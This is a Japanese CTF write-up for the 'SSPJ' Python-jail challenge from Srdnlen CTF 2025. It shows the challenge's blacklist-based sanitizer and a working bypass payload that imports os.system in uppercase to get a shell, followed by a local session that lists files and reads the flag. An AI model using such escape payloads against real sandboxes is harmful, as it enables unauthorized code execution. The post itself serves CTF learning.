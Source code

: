 +++
author = "Hugo Authors"
title = "Srdnlen CTF 2025"
date = "2025-01-20"
description = ""
tags = [
    "CTF",
    "writeup",
    "srdnlen",
]
categories = [
    "Security",
    "Programming",
]
image = "https://raw.githubusercontent.com/stark2420/starknote/refs/heads/main/static/image/srdnlen-ctf-2025/cover.png"
+++

2025/1/19 03:00(JST) - 2025/1/20 03:00(JST)で開催された Srdnlen CTF 2025 に参加した．

<!--more-->
開催期間後に解いた問題をまとめる．

https://ctf.srdnlen.it/
https://ctftime.org/event/2576

## MISC
### SSPJ 
> nc ~

サニタイズされた任意のコマンドを実行できるPyjail, PyExec問題．いくつかのアルファベットや記号，単語は使えない．

```py
class SSPJ(object):
    def __init__(self):
        print("Welcome to the Super Secure Python Jail (SSPJ)!")
        print("You can run your code here, but be careful not to break the rules...")

        self.code = self.code_sanitizer(input("Enter your data: "))

        # I'm so confident in my SSPJ that 
        # I don't even need to delete any globals/builtins
        exec(self.code, globals())
        return

    def code_sanitizer(self, code: str) -> str:
        if not code.isascii():
            print("Alien material detected... Exiting.")
            exit()

        banned_chars = [
            # Why do you need these characters?
            "m", "o", "w", "q", "b", "y", "u", "h", "c", "v", "z", "x", "k"
        ]

        banned_digits = [
            # Why do you need these digits?
            "0", "7", "1"
        ]

        banned_symbols = [
            # You don't need these...
            ".", "(", "'", "=", "{", ":", "@", '"', "[", "`"
        ]

        banned_words = [
            # Oh no, you can't use these words!
            "globals", "breakpoint", "locals", "self", "system", "open",
            "eval", "import", "exec", "flag", "os", "subprocess", "input",
            "random", "builtins", "code_sanitizer"
        ]

        blacklist = banned_chars + banned_digits + banned_symbols + banned_words
        random.shuffle(blacklist)

        if any(map(lambda c: c in code, blacklist)):
            print("Are you trying to cheat me!? Emergency exit in progress.")
            exit()

        return code.lower()
```

Pyjail, PyExec問題では，[Pyjail Cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet)によくまとまっている．
今回は，以下が使える．
```
from os import system as __getattr__; from __main__ import sh
```
アルファベットの小文字の一部がサニタイズされているため，そのままでは上手くいかない．全て大文字で上手くいく．
```
FROM OS IMPORT SYSTEM AS __GETATTR__; FROM __MAIN__ IMPORT SH
```

今回は，開催期間後にローカルで実行した様子を示す．
```
$ docker-compose up
$ nc 127.0.0.1 1717
Welcome to the Super Secure Python Jail (SSPJ)!
You can run your code here, but be careful not to break the rules...
Enter your data: FROM OS IMPORT SYSTEM AS __GETATTR__; FROM __MAIN__ IMPORT SH

ls
flag-5d67dabaeb377feb4e8f79f80dd546f9.txt
sspj.py

cat flag-5d67dabaeb377feb4e8f79f80dd546f9.txt
srdnlen{REDACTED}
```
